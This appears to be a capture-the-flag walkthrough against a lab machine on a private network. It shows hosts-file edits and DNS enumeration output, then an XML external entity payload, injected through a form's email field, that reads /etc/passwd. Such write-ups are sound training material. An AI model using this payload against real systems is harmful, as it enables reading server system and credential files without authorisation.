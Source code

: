 Page 21
http://192.168.0.32/index.php\?page_no\=21
![](https://i.imgur.com/ui0xg45.png)

# /etc/hosts
I'm adding this line to my file.

192.168.0.32 hacker.blackhat.local blackhat.local


# dig
I have to use dig on the domain name.
```sh 
dig hackers.blackhat.local @192.168.0.32
; <<>> DiG 9.18.0 <<>> hackers.blackhat.local @192.168.0.32
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 17027
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: a2f3e2323bd5863f010000006212500721681d408206f9d6 (good)
;; QUESTION SECTION:
;hackers.blackhat.local.		IN	A

;; AUTHORITY SECTION:
blackhat.local.		3600	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600

;; Query time: 3 msec
;; SERVER: 192.168.0.32#53(192.168.0.32) (UDP)
;; WHEN: Sun Feb 20 15:28:23 CET 2022
;; MSG SIZE  rcvd: 125
```

COOKIE: a2f3e2323bd5863f010000006212500721681d408206f9d6 (good)
hackerkid.blackhat.local
 
Now I have to add it to my hosts file.

hackerkid.blackhat.local


# xxe exploit
The form is build with xml, so I can exploit it with a xxe exploit.
https://infosecwriteups.com/exploiting-xml-external-entity-xxe-injection-vulnerability-f8c4094fef83
![](https://i.imgur.com/KWuDEIv.png)
You have to type this in the xml request, it will display nothing. 
```xml
<!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```
And then display it wih this:
```xml
&xxe;
```
But you can't put it anywhere, it have to replace the email content.
